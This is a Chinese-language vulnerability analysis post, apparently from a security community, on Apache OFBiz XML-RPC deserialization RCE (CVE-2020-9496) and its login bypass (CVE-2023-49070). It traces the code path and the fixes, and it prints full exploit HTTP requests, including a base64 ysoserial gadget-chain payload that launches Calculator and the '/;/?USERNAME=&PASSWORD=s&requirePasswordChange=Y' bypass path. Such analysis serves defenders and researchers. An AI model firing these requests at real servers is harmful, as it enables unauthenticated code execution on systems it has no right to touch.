


# CVE-2023-49070&&CVE-2020-9496 OFBIZ XML-RPC 漏洞分析 - 先知社区

CVE-2023-49070&&CVE-2020-9496 OFBIZ XML-RPC 漏洞分析

- - -

## CVE-2020-9496

最近披露了 Apache OFBiz 未授权远程代码执行漏洞，是对 CVE-2020-9496 的绕过，所以先来看看这个漏洞

复现环境：17.12.03

影响范围：**Apache Ofbiz：< 17.12.04**

### 环境搭建

-   下载：[https://downloads.apache.org/ofbiz/](https://downloads.apache.org/ofbiz/)

打开项目，配置如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163200-1709a908-94db-1.png)

等这一步加载完成等了好久，接下来就是像 maven 一样编译

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163223-24d1b12a-94db-1.png)

得到了一个 Jar 包，接下来运行它

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163242-301f4948-94db-1.png)

这里我运行报错了，直接去运行 org.apache.ofbiz.base.start.Start

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163250-35331c7a-94db-1.png)

可以访问[https://localhost:8443/accounting](https://localhost:8443/accounting)

### 漏洞复现

```plain
POST /webtools/control/xmlrpc HTTP/1.1
Host: 127.0.0.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 181

<?xml version="1.0"?>
<methodCall>
<methodName>ProjectDiscovery</methodName>
<params>
    <param>
    <value>
        <struct>
        <member>
            <name>test</name>
            <value>
            <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
           base64 的 payload
            </serializable>
            </value>
        </member>
        </struct>
    </value>
    </param>
</params>
</methodCall>
```

这里直接用 yakit 发，开始打半天没打通，后面才看到是解码错误，是百分号的问题，平常发 base64 习惯 urlencode 发，直接用原始的 base64 发包即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163300-3b1c616e-94db-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163311-41bc2b8a-94db-1.png)

### XML-RPC 消息格式

> -   文档：[http://xmlrpc.com/spec.md](http://xmlrpc.com/spec.md)
> 
> 每个 XML-RPC 请求都以`<methodCall></methodCall>`开头，该元素包含单个子元素`<methodName>method</methodName>`，元素`<methodName>`包含子元素`<params>`，`<params>`可以包含一个或多个`<param>`元素。如：
> 
> ```plain
> POST /RPC2 HTTP/1.0
> User-Agent: Frontier/5.1.2 (WinNT)
> Host: betty.userland.com
> Content-Type: text/xml
> Content-length: 181
> 
> <?xml version="1.0" encoding="utf-8"?>
> <methodCall> 
>   <methodName>examples.getStateName</methodName>  
>   <params> 
>     <param> 
>       <value>
>         <i4>41</i4>
>       </value> 
>     </param> 
>   </params> 
> </methodCall>
> ```
> 
> 几种常见的数据类型
> 
> ```plain
> <!-- array -->
> <value>
>   <array>
>     <data>
>       <value><int>7</int></value>
>     </data>
>   </array>
> </value>
> 
> 
> <!-- struct -->
> <struct> 
>   <member> 
>     <name>foo</name> 
>     <value>bar</value> 
>   </member> 
> </struct>
> ```

### 漏洞分析

路由在 webtools/webapp/webtools/WEB-INF/web.xml 下配置了 servlet

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163343-549dfd78-94db-1.png)

跟进 control，后续在 doGet 方法中经过一些设置后，使用 RequestHandler 的 doRequest 来处理请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163405-619b8d74-94db-1.png)

对于这里的 requestHandler 是在 doGet 开头通过 this.getRequestHandler() 获取到的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163422-6c286f46-94db-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163451-7d697d90-94db-1.png)

跟进后可以看到，其实这里是取的与 web.xml 同目录下的 controller.xml

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163559-a5d111ee-94db-1.png)

然后会对 EventFactory 等实例化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163607-aa85fb00-94db-1.png)

其实就是设置对应的 handler，回到 doRequest 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163619-b198f38e-94db-1.png)

这里 requestMapMap 定义了 216 个 requestMap，随后跟进访问的路径 xmlrpc 从 Map 取出对应的 value 的阿斗了 requestMap

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163625-b51a8022-94db-1.png)

往后继续看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163650-c415d14e-94db-1.png)

走到了 runEvent 函数来处理请求（这里有好几个 runEvent 的调用，主要有一些检查登陆的 event 在前面）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163656-c7bf3e34-94db-1.png)

runEvent 函数中会查找对应 event 到 handler 然后进行 invoke 方法调用，以上就是 web 方面路由的调用

当处理到 xmrpc 的时候

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163702-cb504a52-94db-1.png)

调用对应的 invoke 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163712-d13eb87c-94db-1.png)

没有传入 echo 参数进入 else 分支

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163720-d5d8152c-94db-1.png)

这里的 getrequest 方法会对 POST 数据进行解析，然后通过 execute 执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163729-dbb3f4ac-94db-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163739-e11fcf1a-94db-1.png)

在 execute 方法中通过 methodName 的值会获取 handler

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163746-e5719ecc-94db-1.png)

跟进 getHandler

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163753-e9a61072-94db-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163759-ed471d98-94db-1.png)

可以看到默认定义了 3670 种 methodname，如果找不到则会返回 no such service

接下来回到 getRequest 解析请求的地方

可以看到会对 POST 的数据使用 XMLReader 进行解析，以 XmlRpcRequestParser 为解析器，setFeature 这些是为来防止 XXE 等外部实体解析的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163817-f7db18b8-94db-1.png)

接下来就是 xml 解析操作，包括`startElement()`、`endElement()`等。我们知道在解析器解析 xml 数据的过程中，会触发到`scanDocument()`操作对元素进行逐一“扫描”，其中就会进行`startElement()`、`endElement()`的调用，这个过程如果处理不当就会引入问题。

在 startElement 解析最后，会调用父类的 startElement

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163826-fd200ff4-94db-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163831-0062abcc-94dc-1.png)

最后当标签为 serializable 的时候，会返回 SerializableParser 对象给上层

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163837-0400c49e-94dc-1.png)

这里在返回 searializableParser 的时候前面会有个 if，要求 pURI 等于`http://ws.apache.org/xmlrpc/namespaces/extensions`，这也就是为什么 payload 中会有`<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163846-097b8292-94dc-1.png)

在得到返回的对象后调用 SerializableParser 的 startElement 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163853-0dbeb504-94dc-1.png)

这里会创建一个 base64 解码器，这里应该是调用其父类 ByteArrayParser 的 startElement

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163902-130d5f88-94dc-1.png)

然后会调用到 characters 方法对 base64 进行解码，并且会在解码后写入字节流，这里知道会 base64 解码即可

接下来就按节点调用 endElement 了，刚才是递增从外向内，那么 end 的时候就是递减从内向外开始解析了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163909-1719a3fc-94dc-1.png)

先设置了 result

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163918-1c8b1cf8-94dc-1.png)

接下来是 value 节点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163925-204552b4-94dc-1.png)

当调用到 MapParser 的时候，会调用 endValueTag

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163930-23a8f50a-94dc-1.png)

调用对应 typeParser 的 getResult 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163939-28bc3a8e-94dc-1.png)

取出原先设置的 result 直接反序列化，而 ofbiz 本身是有 CB 链的依赖的

### 为什么要用 struct

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163948-2e187768-94dc-1.png)

可以看到在 XmlRpcRequestParser 的节点解析中，前面几个默认是 methodCall，methodName，params，param，这个处理过程是随着每次遍历标签进行的，当扫描完 4 个必须提供的标签后，会调用父类的`startElement()`进行处理，而 typeParser 就是在父类中完成赋值的，随后便通过不同的解析器进入不同的解析流程，还是会调用对应解析器的`startElement`，这个过程是递归的

也就是前面提到的消息格式

```plain
<?xml version="1.0" encoding="utf-8"?>
<methodCall> 
  <methodName>examples.getStateName</methodName>  
  <params> 
    <param> 
      <value>
        <i4>41</i4>
      </value> 
    </param> 
  </params> 
</methodCall>
```

后面 default 开始解析的时候其实是从 value 节点内的东西开始的，这里应该是`<i4>`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207163957-33d38ea4-94dc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164003-37078c92-94dc-1.png)

而前面我们提到的获得 searializableParser，虽然直接传入可以得到 base64 解码器，但是在调用 endElement 的时候，只能调用到 setResult，不能到最后 getResult 来触发反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164010-3b3ccb74-94dc-1.png)

最后选用了 struct 标签，它能把数据作为一个结构体传入

```plain
<?xml version="1.0"?>
<methodCall>
  <methodName>ping</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>foo</name>
            <value>aa</value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164018-3ffdbcf4-94dc-1.png)

最后在 MapParser 中调用了标签内 typeParser 的 getResult 方法触发反序列化

### 漏洞修复

[https://github.com/apache/ofbiz-framework/commit/4bdfb54ffb6e05215dd826ca2902c3e31420287a](https://github.com/apache/ofbiz-framework/commit/4bdfb54ffb6e05215dd826ca2902c3e31420287a)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164027-454cdcbc-94dc-1.png)

主要就是在 controller.xml 加上了对于/webtools/control/xmlrpc 路由的鉴权

但是在下面这个漏洞中，我看到增加的东西不仅这些，可能后续还进行了增加的，在 CacheFilter 中还增加了对 serializable 标签的检查

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164041-4dc9d8e0-94dc-1.png)

### 具体怎么鉴权的呢

RequestHandler 的获取是与 Controller.xml 相关，涉及到的 event 调用也有需要授权和不需要授权的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164048-51e9a450-94dc-1.png)

首先是一些需要预加载的相关 event 的循环调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164054-559a3006-94dc-1.png)

接下来是检测需要相关 requestMap 是否需要鉴权

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164102-5a5b89fa-94dc-1.png)

需要的话就调用 LoginWorker 的 login 方法（runEvent 中通过反射实现）对其进行鉴权，如果鉴权通过或者不需要坚强就调用 runEvent 对其进行处理走到后续流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164108-5de8a562-94dc-1.png)

## CVE-2023-49070

这个洞是 CVE-2020-9496 的绕过

漏洞影响范围：Apache OFBiz before 18.12.10

复现环境：18.12.09

### 漏洞复现

在[https://www.oscs1024.com/hd/MPS-ope5-i4zj这个漏洞通告中已经给出了权限绕过的payload，结合上一个洞](https://www.oscs1024.com/hd/MPS-ope5-i4zj%E8%BF%99%E4%B8%AA%E6%BC%8F%E6%B4%9E%E9%80%9A%E5%91%8A%E4%B8%AD%E5%B7%B2%E7%BB%8F%E7%BB%99%E5%87%BA%E4%BA%86%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E7%9A%84payload%EF%BC%8C%E7%BB%93%E5%90%88%E4%B8%8A%E4%B8%80%E4%B8%AA%E6%B4%9E)

```plain
POST /webtools/control/xmlrpc/;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
Host: 127.0.0.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 181

<?xml version="1.0"?>
<methodCall>
<methodName>ProjectDiscovery</methodName>
<params>
    <param>
    <value>
        <struct>
        <member>
            <name>test</name>
            <value>
            <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
            rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqbK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAdeXNvc2VyaWFsL1B3bmVyNjQzNTgzNjA0MzcyNTABAB9MeXNvc2VyaWFsL1B3bmVyNjQzNTgzNjA0MzcyNTA7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAALwAOAAAADAABAAAABQAPADgAAAABABMAFAACAAwAAAA/AAAAAwAAAAGxAAAAAgANAAAABgABAAAANAAOAAAAIAADAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAAAAGxAAAAAgANAAAABgABAAAAOAAOAAAAKgAEAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABwAHQACAAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAAJAADAAIAAAAPpwADAUy4AC8SMbYANVexAAAAAQA2AAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJdXEAfgAQAAAB1Mr+ur4AAAAyABsKAAMAFQcAFwcAGAcAGQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx5mnuPG1HGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQADRm9vAQAMSW5uZXJDbGFzc2VzAQAlTHlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcAGgEAI3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vAQAQamF2YS9sYW5nL09iamVjdAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgAAQABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAADwADgAAAAwAAQAAAAUADwASAAAAAgATAAAAAgAUABEAAAAKAAEAAgAWABAACXB0AARQd25ycHcBAHhxAH4ADXg=
            </serializable>
            </value>
        </member>
        </struct>
    </value>
    </param>
</params>
</methodCall>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164119-6452d4ae-94dc-1.png)

### 漏洞分析

在修复版本中，看到了对 xmlrpc 路由增加了权限验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164130-6b503d50-94dc-1.png)

具体是怎么加的呢，就是需要登陆，具体的登陆逻辑在 LoginWorker 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164137-6f3f324a-94dc-1.png)

在最开始处理路由的时候，首先会处理 checkLogin 这个 event

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164143-7286443e-94dc-1.png)

最后通过反射调用到 LoginWorker 到 extensionCheckLogin 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164152-782ec6e0-94dc-1.png)

具体的检测在 checkLogin 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164200-7d1d11e8-94dc-1.png)

这一个 if 如果进去了就代表没有登陆，会返回一个 error，如果没有进这个 if 则会在最后返回 success 代表检测结果是成功登陆

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164207-8126c7d4-94dc-1.png)

```plain
if (username == null
                    || (password == null && token == null)
                    || "error".equals(login(request, response)))
```

三个条件均不成立的时候就可以不进入 if，现在我们主要就是要 login 这个函数返回的值不为 error

一直往下看，首先 username 为空的话会向 unpwErrMsgList 里面 add 一个值，然后当 requirePasswordChange 参数为 Y 的时候，因为 unpwErrMsgList 不为空，进入第二个框里面的 if，最后三目运算符返回 requirePasswordChange

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164214-8591161c-94dc-1.png)

这样就自然而然绕过了登陆检测

但是不知道什么时候，ofbiz 在 CacheFilter 中添加了一个 doFilter

[](https://xzfile.aliyuncs.com/media/upload/picture/20231207164222-8a41fa00-94dc-1.png)

当访问/control/xmlrpc 路由的时候会检测 body 里面是否有`</serializable`，不过这个检测方式就和正常的路由一样，直接添加`/;/`这样就直接绕过了，所以最后权限绕过的 payload

```plain
/webtools/control/xmlrpc/;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
```

参考链接：

[https://mp.weixin.qq.com/s/vGgZxoKSMoiw98z63UuOpw](https://mp.weixin.qq.com/s/vGgZxoKSMoiw98z63UuOpw)

[https://xz.aliyun.com/t/8184/#toc-2](https://xz.aliyun.com/t/8184/#toc-2)

[https://xz.aliyun.com/t/8324#toc-5](https://xz.aliyun.com/t/8324#toc-5)

[https://www.oscs1024.com/hd/MPS-ope5-i4zj](https://www.oscs1024.com/hd/MPS-ope5-i4zj)
